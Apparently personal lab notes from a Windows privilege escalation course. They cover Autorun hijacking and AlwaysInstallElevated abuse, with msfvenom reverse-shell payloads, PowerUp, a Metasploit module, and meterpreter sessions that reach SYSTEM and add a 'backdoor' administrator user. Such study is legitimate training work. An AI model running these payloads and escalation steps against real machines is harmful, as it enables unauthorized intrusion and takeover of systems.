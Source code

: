 
## Autorun

Windows normally has Autoruns enabled for instances such as plugging in a pen drive, inserting a CD, etc. We can abuse this to see whether there are any autoruns that has any permissions to allow us to elevate our privileges.

We can use the `C:\Users\User\Desktop\Tools\Autoruns\Autoruns64.exe` command to check for autoruns. This need a GUI to work.

![[Autoruns.png]]

If we pay look at the entries under `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` (this is where Windows look for programs that should be automatically run), we notice there is a program named `My Program` running as an autorun. 

This can also be under the `HKCU` registry, which are programs that autorun only for the current user.

![[My Program.png]]

Once we have identified the program path, we can use another built-in tool named `accesscheck` to see which users have what type of access.

```PowerShell
C:\Users\user>C:\Users\User\Desktop\Tools\Accesschk\accesschk64.exe -wvu "C:\Program Files\Autorun Program"

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

C:\Program Files\Autorun Program\program.exe
  Medium Mandatory Level (Default) [No-Write-Up]
  RW Everyone
        FILE_ALL_ACCESS
  RW NT AUTHORITY\SYSTEM
        FILE_ALL_ACCESS
  RW BUILTIN\Administrators
        FILE_ALL_ACCESS
```

We can see that everyone Read/Write permission to this file. So we can replace the file with a malicious payload that would run when an Administrator logs in.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o program.exe         
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes
Saved as: program.exe
```

Then we can transfer the file using a simple web server from our machine to the compromised machine. Now we just need to listen for a meterpreter connection.

When an administrator logs in they are automatically prompted to run the program, and we gain access to the machine as a privileged user.

![[Admin Prompt.png]]

```bash
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.4.72.115:4444 
[*] Sending stage (177734 bytes) to 10.10.106.111
[*] Meterpreter session 2 opened (10.4.72.115:4444 -> 10.10.106.111:49261) at 2025-07-14 18:41:56 +1000

meterpreter > getuid 
Server username: TCM-PC\TCM
```


## AlwaysInstallElevated

Windows has packages called `msi` packages (generally windows installers), that can be automatically be installed elevated by setting a registry key. We can check the relevant registry and see whether the value is set for 1.

```PowerShell
C:\Users\user>reg query HKLM\Software\Policies\Microsoft\Windows\Installer

HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1

C:\Users\user>reg query HKCU\Software\Policies\Microsoft\Windows\Installer

HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows\Installer
    AlwaysInstallElevated    REG_DWORD    0x1
```

We can see both `HKLM` (HKey Local Machine) and `HKCU` (HKey Current User) are set to 1. There are several ways we can exploit this.

### PowerUp.ps1

If we can run the `PowerUp.ps1` script, it will auto detect if these registry values are set to 1.

```PowerShell
C:\Users\user\Desktop\Tools\PowerUp>powershell -ep bypass
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\user\Desktop\Tools\PowerUp> . .\PowerUp.ps1
PS C:\Users\user\Desktop\Tools\PowerUp> Invoke-AllChecks

.
.

[*] Checking for AlwaysInstallElevated registry key...

AbuseFunction : Write-UserAddMSI

.
.

PS C:\Users\user\Desktop\Tools\PowerUp> Write-UserAddMSI

OutputPath
----------
UserAdd.msi
```

This would create an `.msi` executable we can run to add a user to the Administrators group. When we run the executable, we see the following.

![[PowerUp UserAdd.png]]

We can check the administrators group and verify that we have successfully added the `backdoor` user to the group.

```PowerShell
C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
--------------------------------------------------------------------
Administrator
TCM
The command completed successfully.

C:\Users\user>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
--------------------------------------------------------------------
Administrator
backdoor
TCM
The command completed successfully.
```

### msfvenom

We can also manually exploit this by generating an `.msi`executable through `msfvenom` and transferring it over.

```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 -f msi -o setup.msi                         
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of msi file: 159744 bytes
Saved as: setup.msi
```

When we run `setup.msi` on the compromised machine, we get the following and when Run is clicked, the meterpreter session is established. We can also run the command `msiexec /quiet /qn /i C:\Temp\setup.msi` to execute the setup file as well.

![[msfvenom payload.png]]

```bash
msf6 exploit(multi/handler) > sessions 

Active sessions
===============

No active sessions.

msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.4.72.115:4444 
[*] Sending stage (177734 bytes) to 10.10.106.111
[*] Meterpreter session 3 opened (10.4.72.115:4444 -> 10.10.106.111:49414) at 2025-07-14 20:25:31 +1000

meterpreter > getuid 
Server username: NT AUTHORITY\SYSTEM
```


### Meterpreter

We can also use this method to gain an elevated shell if we have a low privilege shell in meterpreter.

```bash
msf6 exploit(multi/handler) > use exploit/windows/local/always_install_elevated 
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/always_install_elevated) > options 

Module options (exploit/windows/local/always_install_elevated):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.1.250    yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows
```

## regsvc ACL
